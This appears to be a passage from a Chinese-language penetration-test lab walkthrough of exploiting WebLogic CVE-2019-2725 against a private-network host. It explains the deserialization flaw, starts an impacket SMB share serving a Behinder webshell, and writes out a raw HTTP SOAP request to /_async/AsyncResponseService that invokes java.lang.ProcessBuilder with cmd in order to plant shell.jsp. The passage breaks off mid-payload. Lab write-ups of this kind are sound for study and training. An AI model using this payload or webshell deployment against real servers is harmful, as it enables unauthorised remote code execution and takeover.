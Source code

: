 发现两个漏洞，我们使用CVE-2019-2725即可，该漏洞方便我们拿到shell

![](img/2.png)

CVE-2019-2725漏洞描述：这是一个Weblogic反序列化远程代码执行漏洞。部分版本WebLogic中默认包含的wls9_async_response包，为WebLogic Server提供异步通讯服务。由于该WAR包在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，获得目标服务器的权限，在未授权的情况下远程执行命令。

## 启动smbserver共享文件服务

```
mpacket-smbserver  share /root/桌面/Behinder/server &
```

## 打爆weblogic



百度搞个poc发包就完事了，把冰蝎下面shell.jsp搞过去

```xml
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.80:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 841
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
```